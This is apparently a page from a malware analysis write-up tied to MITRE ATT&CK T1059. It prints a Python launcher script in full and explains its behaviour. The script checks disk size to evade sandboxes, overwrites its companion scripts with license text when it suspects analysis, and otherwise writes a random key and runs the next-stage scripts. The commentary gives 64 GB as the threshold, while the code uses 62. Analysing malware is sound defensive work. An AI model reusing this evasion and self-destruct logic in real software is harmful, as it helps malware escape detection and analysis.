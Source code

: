 <https://attack.mitre.org/techniques/T1059/>

# Malicious scripts analysis

## **Launcher.py**
```python
import shutil
import sys
import time
import uuid
import smile_funs
me = sys.argv[0]
fold = me[:me.rfind("\\") + 1]

def police():
    smile_funs.run_cmd("\"{0}python.exe\" \"{0}smile.py\"".format(fold), False)
    time.sleep(5)
    smile_funs.run_cmd("\"{0}python.exe\" \"{0}frown.py\"".format(fold), False)
def crack():
    # Crack everything at this point
    open(fold + "smile.py", "wb").write(open(fold + "LICENSE.txt", "rb").read())
    open(fold + "smile_funs.py", "wb").write(open(fold + "LICENSE.txt", "rb").read())
    open(fold + "frown.py", "wb").write(open(fold + "LICENSE.txt", "rb").read())
    sys.exit(4)
def good_disk_size():
    # There are no computers with disk size less than 62
    return 62 < round(shutil.disk_usage("/")[0]) / 2 ** 30
if __name__ == '__main__':
    if len(sys.argv) == 2:
        if sys.argv[1] == "police":
            police()
    else:
        # Sandbox Evasion
        if not good_disk_size():
            crack()
            sys.exit(0)
        # Reaching this far means that we are not in a sandbox, Probably
        d = open(fold + "frown.py", "r").read()
        uu = str(uuid.uuid4())
        d = d.replace("THE_GUID_KEY", uu)
        open(fold + "frown.py", "w").write(d)
        open(fold + ".key", "w+").write(uu)
        police()

```
If there are **no arguments passed**

-   It will check the **containing disk size**, if it\'s less than **64gb** then it would be **sandbox** 

-   If so it activates "**crack function"**, which destroys the 3
    scripts (**smile.py, smile_funs.py, frown.py**) by **overwriting
    their contents** with (**LICENSE.txt**) content as an **anti-sandbox
    technique**.
